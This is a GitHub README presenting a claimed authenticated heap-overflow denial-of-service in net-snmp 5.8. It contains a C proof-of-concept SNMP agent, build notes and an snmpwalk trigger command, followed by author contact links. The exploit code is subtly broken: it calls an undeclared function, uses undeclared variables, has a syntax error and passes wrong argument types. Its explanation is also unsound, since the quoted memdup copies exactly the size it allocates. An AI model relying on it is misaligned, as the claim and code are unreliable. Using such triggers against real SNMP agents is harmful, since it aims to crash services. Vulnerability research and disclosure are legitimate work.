 # NET-SNMP-Heap-overflow
A brief overview of Heap overflow vulnerability in NET-SNMP

Title: net-snmp 5.8 - (Authenticated) Heap overflow (DOS PoC)  
Vulnerability Discovered by: Alireza Chegini (@nimaarek)  
Exploit Author: Alireza Chegini (@nimaarek)  
Vendor Homepage: http://net-snmp.org  
Software Link: https://sourceforge.net/projects/net-snmp/files/net-snmp/5.8/  
Version: 5.8  
Tested on: Manager in the Win 8.1 and Agent in Ubuntu 18  

###### Vulnerability Description

The vulnerability is in a function called **netsnmp_memdup** that duplicates a memory block, which is in the ``` net-snmp-5.8\snmplib\tools.c``` this function uses a unsafe function called **memcpy** (SDL bans) that does not check the copy destination buffer size.
```C
void *netsnmp_memdup(const void *from, size_t size)
{
    void *to = NULL;

    if (from) {
        to = malloc(size);
        if (to)
            memcpy(to, from, size);
    }
    return to;
}
```
There are many functions in this library that call this function (netsnmp_memdup) but most of them check the copy destination buffer size but one of the functions that does not do this is called **netsnmp_table_set_add_default_row**. this function is used to adds a new default row to a table.
```C
int netsnmp_table_set_add_default_row (netsnmp_table_data_set *table_set, unsigned int column, int type, int writable, void *default_value, size_t default_value_len)
```
Definition at line 305 of file ```net-snmp-5.8\agent\helpers\table_dataset.c```
Arguments should be the table_set, column number, variable type and finally a 1 if it is allowed to be writable, or a 0 if not. If the default_value field is not NULL, it will be used to populate new valuse in that column fro newly created rows. It is copied into the storage template (free your calling argument).
On line 345 of this function, the **netsnmp_memdup** function is called:
```C
new_col = SNMP_MALLOC_TYPEDEF(netsnmp_table_data_set_storage);
if (new_col == NULL)
    return SNMPERR_GENERR;
new_col->type = type;
new_col->writable = writable;
new_col->column = column;
if (default_value) {
    new_col->data.voidp = netsnmp_memdup(default_value, default_value_len);
    new_col->data_len = default_value_len;
}
```

The Heap overflow vulnerability occurs when the memory allocated by malloc is smaller than the size of the memory block to be copied.

###### Proof of discovery

```C
/** @example poc.c

 *  this is just an example to show the vulnerability
 *  Makefile contains the following code
 *  CC=gcc

 *  OBJS = VulnAgent.o
 *  TARGETS = VulnAgent
 *  FILENAME = VulnAgent.c
 *  CFLAGS = -I. `net-snmp-config --cflags`
 *  BUILDLIBS = `net-snmp-config --libs`
 *  BUILDAGENTLIBS = `net-snmp-config --agent-libs`
 * 
 *  all: $(TARGETS)

 *  BUG: $(OBJS)
 *    $(CC) $(CFLAGS) -o $(TARGETS) $(FILENAME) $(BUILDLIBS) $(BUILDAGENTLIBS)
 *  clean:
 *    rm $(OBJS) $(TARGETS)

 *  Build (using make):
 *  make BUG

 *  Run agent:
 *  ./VulnAgent

 *  Send request from Manager:
 *  snmpwalk -v 2c -c AliReza [AgentIp] 1.3.6.1.4.1.41414242.2.2.1
 *  BOOOOOOOOOOOOOOOOOOM
 */


#include <net-snmp/net-snmp-config.h>
#include <net-snmp/net-snmp-includes.h>
#include <net-snmp/agent/net-snmp-agent-includes.h>
#include <net-snmp/net-snmp-features.h>
#include <net-snmp/config_api.h>

// ProtoTYpe
void CreateBuggyTable();

void main() {
    /* load default snmpd.conf */
    init_agent("snmpd");
    /* bug here :) */
    CreateTable();
    /*  Initialize MIBs. */
    init_mib_modules();
    /* load default snmpd.conf */
    init_snmp("snmpd");
    /* show packet detail */
    netsnmp_ds_set_boolean(NETSNMP_DS_LIBRARY_ID, NETSNMP_DS_LIB_DUMP_PACKET, 1);
    /* ...make us an Master Agent  */
    netsnmp_ds_set_boolean(NETSNMP_DS_APPLICATION_ID, NETSNMP_DS_AGENT_ROLE, 0);
    /* set snmp version to 2c */
    netsnmp_ds_set_int(NETSNMP_DS_LIBRARY_ID, NETSNMP_DS_LIB_SNMPVERSION, NETSNMP_DS_SNMP_VERSION_2c);
    /* set default port 161 */
    netsnmp_ds_set_int(NETSNMP_DS_LIBRARY_ID, NETSNMP_DS_LIB_DEFAULT_PORT, 161);
    /* set community string */
    vacm_parse_rocommunity("rocommunity", "AliReza");
    /*  Listen on default port (161).  */
    init_master_agent();
    while (1)
    {
        agent_check_and_process(1); /* 0 == don't block */
    }
    /*  At shutdown time:  */
    snmp_shutdown("snmpd");
    SOCK_CLEANUP;
}

void CreateBuggyTable() {
    int r = 0;

    // the OID we want to register our integer at.
    oid my_registration_oid[] = {1, 3, 6, 1, 4, 1, 41414242, 2, 2, 1};

    // create the table struct itself
    g_TableSet = netsnmp_create_table_data_set("nimaarekTable");

    // comment out or remove this line if no support for creation of rows
    g_TableSet->allow_creation = 1;

    // add the index
    netsnmp_table_set_add_indexes(g_TableSet, ASN_INTEGER, 0);

    // create the columns
    char ali[1024];
    netsnmp_table_set_add_default_row(g_TableSet, 1, ASN_OCTET_STR, 1, ali, 0);

    // register the table with the agent
    netsnmp_register_table_data_set(
        netsnmp_create_handler_registration(
            "nimaarekTable", NULL, my_registration_oid,
            OID_LENGTH(my_registration_oid),, HANDLER_CAN_RWRITE),
        g_TableSet, NULL);

    // create a dummy row
    row = netsnmp_create_table_data_row();

    netsnmp_table_row_add_index(1, ASN_INTEGER, r, sizeof(r));

    // now fill in the columns with incrementing integral data
    netsnmp_set_row_column(row, 2, ASN_INTEGER, r, sizeof(r));
    netsnmp_mark_row_column_writable(row, 2, 1);

    // add the row
    netsnmp_table_dataset_add_row(g_TableSet, row);

    netsnmp_register_auto_data_table(g_TableSet, NULL);
}
```
###### DEMO

![alt text](https://raw.githubusercontent.com/AlirezaChegini/NET-SNMP-Heap-overflow/master/POC.GIF "Logo Title Text 1")

###### FRIENDS

MarYam (My Lovely  :yellow_heart:
:blue_heart:
:purple_heart:
:heart:
:green_heart:)  
Amir Hesam Olfati  
AHA (GODvB?? :trollface: )  

###### SITE n FORUM
[webscene](https://webscene.ir)  
[iranled](http://www.iranled.com)  
[(PRIVATE *)TEAM-IRA](127.0.0.1)

###### Contact
[twitter: @nimaarek](https://twitter.com/nimaarek/)  
[telegram: @moonshaker](https://telegram.me/moonshaker)  
[linkedin: alireza-chegini-nimaarek](https://linkedin.com/in/alireza-chegini-nimaarek)  
[E-Mail](mailto:coc.nimaarek@gmail.com)  
